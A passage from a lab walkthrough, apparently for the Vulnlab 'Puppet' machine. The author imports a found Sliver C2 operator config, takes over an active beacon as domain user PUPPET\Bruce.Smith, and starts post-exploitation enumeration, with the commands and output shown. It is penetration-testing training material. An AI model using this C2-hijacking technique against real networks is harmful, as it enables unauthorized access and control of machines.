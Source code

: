 After downloading and inspecting the red_127.0.0.1.cfg file, it appeared to be a beacon configuration for the Sliver framework:
```Bash
➜  puppet cat red_127.0.0.1.cfg | jq
{
  "operator": "red",
  "token": ""-----Snip-----",
  "lhost": "127.0.0.1",
  "lport": 31337,
  "ca_certificate": ""-----Snip-----",
  "private_key": ""-----Snip-----",
  "certificate": "-----Snip-----"
}
```

I imported the Sliver configuration and launched the client. Eventually, a beacon call-back was received from a machine using the domain user PUPPET\Bruce.Smith:
```Bash
➜  sliver ./sliver-client_linux import /home/sz/Documents/vulnlab/labs/medium/puppet/red_127.0.0.1.cfg 
2025/05/10 15:22:10 Saved new client config to: /home/sz/.sliver-client/configs/red_127.0.0.1.cfg

➜  sliver ./sliver-client_linux                                                           
Connecting to 127.0.0.1:31337 ...

sliver > use

? Select a session or beacon: BEACON  53008a92  puppet-mtls  10.10.253.182:55945  File01  PUPPET\Bruce.Smith  windows/amd64
[*] Active beacon puppet-mtls (53008a92-c3ed-440e-99d3-fac986dd22b5)

sliver (puppet-mtls) > beacons

 ID         Name          Tasks   Transport   Remote Address        Hostname   Username             Operating System   Locale   Last Check-In                            Next Check-In                        
========== ============= ======= =========== ===================== ========== ==================== ================== ======== ======================================== ======================================
 53008a92   puppet-mtls   0/0     mtls        10.10.253.182:55945   File01     PUPPET\Bruce.Smith   windows/amd64      en-US    Sat May 10 15:26:11 EDT 2025 (26s ago)   Sat May 10 15:26:42 EDT 2025 (in 5s)
```

# Post-Exploitation Enumeration
A look inside C:\ProgramData revealed the presence of Puppet and PuppetLabs directories, indicating the Puppet automation tool was installed on the machine.
```Bash
sliver (puppet-mtls) > ls

C:\ProgramData (17 items, 4.6 KiB)
==================================
-----Snip-----
drwxrwxrwx  Puppet                                                     <dir>    Sat Oct 12 04:42:37 -0700 2024
drwxrwxrwx  PuppetLabs                                                 <dir>    Fri Oct 11 06:07:15 -0700 2024
-----Snip-----
```
